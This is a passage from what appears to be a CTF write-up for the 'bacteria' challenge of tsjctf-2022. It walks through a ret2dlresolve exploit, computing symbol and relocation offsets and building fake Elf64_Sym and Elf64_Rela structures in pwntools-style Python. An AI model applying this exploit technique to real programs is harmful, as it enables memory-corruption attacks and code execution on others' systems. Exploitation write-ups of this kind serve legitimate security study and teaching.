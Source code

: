 ```
SYMTAB = 0x400290
Elf64_Sym_addr  = rw_section                             = 0x403e00
symbol_number   = int(( Elf64_Sym_addr - SYMTAB ) / 24)  = 634
```

Now, we will create a fake struct for Elf64_Sym. The structure of Elf64_Sym is defined as follows:

```c
typedef struct elf64_sym {
    Elf64_Word st_name;       /* Symbol name, index in string table (4 bytes)*/
    unsigned char st_info;    /* Type and binding attributes (1 bytes) */
    unsigned char st_other;   /* No defined meaning, 0 (1 bytes) */
    Elf64_Half st_shndx;      /* Associated section index (2 bytes) */
    Elf64_Addr st_value;      /* Value of the symbol (8 bytes) */
    Elf64_Xword st_size;      /* Associated symbol size (8 bytes) */
} Elf64_Sym;
```

The variable we want to fake here is st_name and we just keep the others same as Elf64_Sym of read:

![read_fake_keep.png](/static/images/tsjctf-2022/bacteria/read_fake_keep.png)

But because our space is limited so we cannot write the struct in 0x10 bytes, the other 0x10 bytes will be use to control the flow. So our Elf64_Sym_Struct would be like this:

```python
st_name = p32(0xdeadbeef)        # Unknown, temporary
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
# st_size is null already because the stack now contain all null byte
# so we don't need to write these variable, just need to pad full 0x10
# bytes so that we don't need to sleep()
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx
```

Because we haven't build up structure for STRTAB so st_name will be `0xdeadbeef`, just temporary and will change when STRTAB is finished. Now we will leave it here and continue with the second struct: Elf64_Rela!

### Stage 3: Fake address and structure of Elf64_Rela

First, we will need the address for Elf64_Rela struct to make `reloc_arg` is an integer with the following calculation:

```
    <Address of Elf64_Rela> = <JMPREL> + <reloc_arg> * 24
<=> <reloc_arg> = ( <Address of Elf64_Rela> - <JMPREL> ) / 24
```

After a while trying various address, the address of Elf64_Rela will be `rw_section + 0x40` and we have the following stuffs:

```
JMPREL = 0x400300
Elf64_Rela_addr  = rw_section + 0x40                      = 0x403e40
reloc_arg        = int(( Elf64_Rela_addr - JMPREL) / 24)  = 632
```
